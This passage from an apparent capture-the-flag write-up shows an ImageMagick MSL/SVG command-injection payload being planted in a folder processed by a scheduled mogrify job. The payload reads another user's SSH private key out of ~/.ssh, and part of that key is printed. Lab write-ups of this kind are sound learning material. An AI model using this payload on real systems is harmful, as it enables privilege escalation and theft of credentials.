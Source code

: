 Now we copy it to the path that the script is running mogrify on:

```text
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

Waiting a few minutes and looking again we see our file:

```text
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 thomas   thomas     54 Jan 23 13:38 0wned
4 -rw-r--r--  1 www-data www-data  407 Jan 23 13:35 poc.svg
```

## Exfiltrate SSH Private Key

Let's use this to grab the private key from the thomas .ssh folder we saw earlier:

```html
www-data@meta:/dev/shm$ cat /tmp/demo/poc.svg
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Same as before copy this file to the images folder:

```text
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

Wait a few minutes and our file has arrived:

```text
www-data@meta:/dev/shm$ ls -lsa
4 -rw-r--r--  1 thomas   thomas   2590 Jan 23 13:31 id_rsa
4 -rw-r--r--  1 thomas   thomas     54 Jan 23 13:38 0wned
4 -rw-r--r--  1 www-data www-data  412 Jan 23 13:28 poc.svg
```

Check the contents:

```text
www-data@meta:/dev/shm$ cat key
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
<SNIP>
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE= -----END OPENSSH PRIVATE KEY-----
```
